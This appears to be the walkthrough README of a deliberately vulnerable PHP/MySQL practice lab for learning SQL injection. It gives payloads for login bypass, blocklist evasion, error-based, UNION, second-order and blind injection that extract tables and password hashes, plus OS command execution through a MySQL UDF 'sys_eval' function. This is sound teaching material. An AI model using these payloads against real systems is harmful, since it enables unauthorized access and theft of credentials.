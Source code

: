 # Walkthrough document

This document explains the different attacks that can be done on this setup. Use `?debug=true` to see the actual query being executed.

## Registration

Use the `register.php` to create users

## Login bypass attack

Bypassing login using boolean expressions

### `login1.php`

**Attack:** 
   
- `non-existent-user' OR 1=1 -- //`
- `bob' -- //` 

### `login2.php`

**Attack:** 

- `voldemort') -- //`

### `login1-blocklist.php`

With a somewhat comprehensive blocklist, it is harder to perform SQLi.

However, with a payload seen below (or just `a\`), you can cause an error to be thrown.

Depending on the SQL dialect, or using "Fragmented SQL injection", you can circumvent blocklists.

    a'(\

## Verbose SQL Error based Injection

Forcing error conditions to reveal and extract data

**Page:** `login1.php` 

**Attack:**

- `' or 1 in (select @@version) -- //`
- `' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //`
- `' or 1 in (select password from users where username = 'admin') -- //`


## Extracting data using UNION queries

Using a pre existing SQL select query to fetch additional data from the DB

**Page:** `searchproducts.php` 

**Attack:**

- `' order by 5 -- //`
- `' union select 1,2,3,4,5 -- //`
- `' union select null, null, database(), user(), @@version -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`
- `' union select null, id, username, password, fname from users -- //`

## Second order SQL injection

User input is stored and reused as is in a different function that has no protection

**Page:** `secondorder_register.php`

**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //
- navigate to secondorder_changepass.php
```

## Blind SQL injection

**Page:** `blindsqli.php`

**Attack:**

- `?user=1' and 1=1 -- //`
- `?user=admin' and substring((select table_name from information_schema.columns where column_name = 'password' LIMIT 1),1,1)>'a' -- //` 
- `?user=1' union select 1,2,3,4, if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- //` 

## OS interaction

**Page:** `os_sqli.php`

**Attack:** 

- Given that we have mounted the `./udf` folder to `/usr/lib/mysql/plugin`, the `lib_mysqludf_sys.so` inside the `./udf` is available to the MySQL instance
- UDF obtained from `https://github.com/sqlmapproject/udfhack/blob/35abeedc6c590d2fc666a64b57aad9cf7944ec7a/linux/lib_mysqludf_sys/lib_mysqludf_sys.so`
- Use the ability to perform stacked queries in `os_sqli.php` to create a UDF function from the `lib_mysqludf_sys.so` library.
- `os_sqli.php?user=qqqq'; create function sys_eval returns string soname 'lib_mysqludf_sys.so';`
- `os_sqli.php?user=qqqq' union select 1,sys_eval('id'),3,4,5 -- //`
- To drop the function and redo the exercise run `os_sqli.php?user=qqqq';drop function sys_eval;`
- As the MySQL instance is running in a separate container than the web application, the `INTO OUTFILE` way of writing a php shell to disk will not work as the shell will be written inside the MySQL container can cannot be accessed from the web application.

## References

- SQL Injection Cheat Sheet - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- Various ways of loading a UDF into MySQL - https://osandamalith.com/2018/02/11/mysql-udf-exploitation/